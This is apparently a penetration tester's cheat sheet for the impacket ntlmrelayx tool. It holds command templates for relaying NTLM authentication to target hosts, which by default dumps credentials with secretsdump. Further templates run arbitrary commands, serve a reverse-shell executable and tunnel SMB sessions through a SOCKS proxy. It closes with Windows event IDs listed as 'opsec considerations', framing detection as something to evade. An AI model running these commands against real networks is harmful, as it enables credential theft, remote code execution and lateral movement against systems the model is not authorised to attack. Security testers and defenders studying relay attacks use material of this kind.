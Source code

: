 ### Source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py  

### General information
```
Pass-The-Hash with NTHash/NTLM possible
Pass-The-Hash with NET-NTLM/NTLMv1/v2 not possible
Relaying does not work if smb signing is enabled
```

### Relay requests to ip addresses, without -c ntlmrelayx will use secretsdump
```
impacket-ntlmrelayx -tf <rhostFile> -c '<command>'
```

### Serve payload
```
impacket-ntlmrelayx -t <rhost> -e <./reverse.exe>
```

### Create socks proxy connection to relay target (socks5 using port 1080)
```
ntlmrelayx.py -smb2support -t smb://<rhost> -socks
proxychains smbclient.py -no-pass <domain>/<user>@<rhost>    
```

### Opsec considerations - 
```
Windows Security Log Event IDs
-Logon (4624) -> multiple
-Logoff (4634) -> multiple
-Special Logon (4672) -> multiple

Windows System Logs
Service Control Manager (7040) -> multiple
```


